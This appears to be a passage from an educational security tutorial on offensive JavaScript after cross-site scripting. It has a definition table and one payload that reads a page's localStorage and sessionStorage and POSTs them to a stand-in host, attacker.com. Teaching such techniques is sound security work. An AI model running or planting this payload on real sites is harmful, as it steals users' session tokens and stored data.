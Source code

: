 # Going Beyond alert(1)

## Going Beyond `alert(1)`: Offensive JavaScript Techniques

### High-Level Summary

Exploiting **Cross-Site Scripting (XSS)** extends far beyond simple JavaScript pop-ups like `alert(1)`. Attackers use **offensive JavaScript techniques** to gain control over a victim’s browser, steal sensitive data, manipulate the DOM, and hijack user sessions. These attacks are often combined with **social engineering, phishing, or automated scripts** to cause **real-world damage**.

To fully understand **offensive JavaScript**, it is crucial to explore methods that **exfiltrate data**, **interact with browser storage**, **perform unauthorized actions**, and **exploit user trust**. These methods illustrate the risks of XSS and the necessity of strong security measures.

***

### Definition Bank

| Term                                  | Definition                                                                                                                               |
| ------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------- |
| **localStorage**                      | A browser storage mechanism that retains data even after the browser is closed, making it persistent across sessions.                    |
| **sessionStorage**                    | Similar to `localStorage`, but the data is cleared when the session (browser tab) is closed.                                             |
| **document.cookie**                   | A property that stores **HTTP cookies** associated with the current page. If improperly secured, cookies can be accessed via JavaScript. |
| **XMLHttpRequest (XHR)**              | A **legacy** JavaScript API used for making HTTP requests, often exploited in XSS attacks.                                               |
| **Fetch API**                         | A **modern** JavaScript API that allows cleaner, more efficient HTTP requests, commonly used for data exfiltration.                      |
| **Keylogging**                        | Capturing user keystrokes to steal sensitive information such as passwords and credit card numbers.                                      |
| **CSRF (Cross-Site Request Forgery)** | An attack that tricks users into performing unintended actions on a site where they are authenticated.                                   |

***

### Offensive JavaScript Techniques

#### 1. Accessing Local and Session Storage

Web applications often store **user preferences, session tokens, or API keys** in `localStorage` or `sessionStorage`. Attackers can exploit **XSS vulnerabilities** to retrieve this data.

**Payload: Extracting Storage Data**

```javascript
let localStorageData = JSON.stringify(localStorage);
let sessionStorageData = JSON.stringify(sessionStorage);
fetch("http://attacker.com/steal", {
    method: "POST",
    body: JSON.stringify({ localStorage: localStorageData, sessionStorage: sessionStorageData })
});
```
